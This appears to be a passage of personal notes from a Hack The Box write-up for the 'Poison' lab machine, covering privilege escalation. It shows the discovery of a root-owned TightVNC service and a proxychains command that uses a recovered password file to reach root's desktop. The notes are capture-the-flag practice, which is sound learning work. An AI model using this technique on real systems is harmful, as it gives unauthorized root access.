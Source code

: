 ```
charix@Poison:~ % echo $SHELL  
/bin/csh
```

## abnormal PATH variable
![[Pasted image 20230502180133.png]]

## charix mail
![[Pasted image 20230502180742.png]]

The secret.zip seems to have a small word written in binary.

## listening ports
![[Pasted image 20230502182328.png]]

![[Pasted image 20230502182444.png]]

VNC is available locally on this computer as `tightvnc` running as root:

`root 0:00.05 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -`

- password file: `/root/.vnc/passwd`
- port: `-rfbport 5901` listening on local host

![[Pasted image 20230502200825.png]]

```bash
┌──(lemur㉿kali)-[~/htb/poison/loot]  
└─$ proxychains xtightvncviewer 127.0.0.1:5901 -passwd secret  
[proxychains] config file found: /etc/proxychains4.conf  
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4  
[proxychains] DLL init: proxychains-ng 4.16  
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  127.0.0.1:5901  ...  OK  
Connected to RFB server, using protocol version 3.8  
Enabling TightVNC protocol extensions  
Performing standard VNC authentication  
Authentication successful  
Desktop name "root's X desktop (Poison:1)"  
VNC server default format:  
 32 bits per pixel.  
 Least significant byte first in each pixel.  
 True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0  
Using default colormap which is TrueColor.  Pixel format:  
 32 bits per pixel.  
 Least significant byte first in each pixel.  
 True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0  
Same machine: preferring raw encoding
```

![[Pasted image 20230502202047.png]]

very interseting style.

